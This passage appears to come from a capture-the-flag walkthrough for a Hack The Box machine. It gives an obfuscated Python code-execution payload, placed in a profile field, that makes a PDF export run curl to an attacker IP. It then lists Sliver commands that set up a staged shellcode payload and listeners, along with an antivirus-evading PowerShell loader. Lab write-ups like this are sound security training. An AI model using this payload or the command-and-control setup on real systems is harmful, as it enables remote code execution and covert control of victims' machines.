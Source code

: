 To verify whether code execution is possible, we can simply test for an outbound request to our server. Add the following payload to the Bio field, fill in the other required profile fields, and submit the form. Then, trigger the Export Profile functionality to generate the PDF

```html
<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('curl http://IP') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
               exploit
</font></para>
```
>    Don’t forget to replace the IP with your attacker's IP address and start a listener or HTTP server to capture the callback.

![](https://cdn-images-1.medium.com/max/1000/1*fFs9NOORLXAibJ-Rsq42bQ.png)

We have a connection
![](https://cdn-images-1.medium.com/max/1000/1*v-lmwGP0O5eY4HGksvt1Cg.png)

### Building our shell
#### PowerShell Shellcode Loader – Sliver Staged Payload	

We’ll use Sliver to generate a shellcode payload and deliver it using a PowerShell script that leverages process hollowing via dynamic Win32 API reflection, helping evade AV detection.

##### Step-by-Step: Generating Sliver Shellcode
1. Start the Sliver server
    ```bash
    sliver-server
    ```
2. Create a shellcode profile
    ```bash
    profiles new --http 10.10.16.39:8088 --format shellcode htb
    ```
3. Set up a staged listener
    Using staging makes the initial payload smaller and more evasive
    ```bash
    stage-listener --url tcp://10.10.16.39:4443 --profile htb
    ```
4. Start an HTTP listener for staging delivery
    ```bash
    http -L 10.10.16.39 -l 8088
    ```
5. Generate the stager payload
    ```bash
    generate stager --lhost 10.10.16.39 --lport 4443 --format ps1 --save staged.txt
    ```
![](https://cdn-images-1.medium.com/max/1000/1*-vWd1oTG_HyEw3Oz5VPOUw.png)
